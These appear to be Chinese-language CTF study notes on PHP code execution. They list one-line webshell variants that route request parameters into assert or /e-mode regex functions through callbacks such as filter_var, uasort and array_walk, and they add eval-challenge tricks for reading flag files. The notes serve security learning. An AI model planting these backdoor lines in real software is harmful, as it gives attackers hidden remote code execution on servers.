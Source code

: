 ```php
register_shutdown_function(函数, $_REQUEST['pass']);
register_tick_function (函数, $_REQUEST['pass']);
filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));
filter_var_array(array('test' => $_REQUEST['pass']), array('test' => array('filter' => FILTER_CALLBACK, 'options' => 'assert')));//php里用这个函数来过滤数组，只要指定过滤方法为回调（FILTER_CALLBACK），且option为assert即可。

//php 5.4.8+后的版本，assert函数由一个参数，增加了一个可选参数descrition =>有两个参数的回调函数
uasort(array('test', $_REQUEST['pass']),函数);
uksort(array('test', $_REQUEST['pass']),函数);
//面向对象
$arr = new ArrayObject(array('test', $_REQUEST['pass']));
$arr->uasort('assert');

array_reduce(array(1), fun, $_POST['pass']);
array_udiff(array($_POST['pass']), array(1), fun);

//三参数回调
php中，可以执行代码的函数：
一个参数：assert
两个参数：assert （php5.4.8+）
三个参数：preg_replace /e模式
mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e');
preg_filter('|.*|e', $_REQUEST['pass'], '');

array_walk(array($_POST['pass'] => '|.*|e',), $_REQUEST['e'], '');//?e=preg_replace
array_walk_recursive(array($_POST['pass'] => '|.*|e',), $_REQUEST['e'], '')
```
## 无参函数
限制传输进参数的函数名必须是字母函数且不能有参数
```php
eval("return $f1($f2());");//fuzzing
```
## parse_str
```php
parse_str("name=Peter&age=43",$myArray);//Array ( [name] => Peter [age] => 43 )
```
## eval,assert
题目给了`eval("$c")`,构造`$c`的方法：
```php
1.echo/var_dump/print $flag/$GLOBALS;
2.highlight_file/show_source("flag.php");
```

![20220602121923](https://s2.loli.net/2022/06/02/zeHhvOYNqZlS7r9.png)
## base_convert(number,frombase,tobase);
frombase和tobase介于 2 和 36 之间（包括 2 和 36）
```php
常用base_convert(37907361743,10,36); //但会转换小写和去掉特殊符号，所以常配合hex2bin等使用
```
## 魔术方法
```php
class_exists($class)//判断类是否存在,当类不存在时会调用__autoload(),尝试加载未定义的类
```
## 匿名函数
[参考](https://my.oschina.net/huyex/blog/2885273)
```php
$ctfshow('',$_GET['show']);//可以控制函数名和第二个参数
creat_function(string $agrs,string $code)
```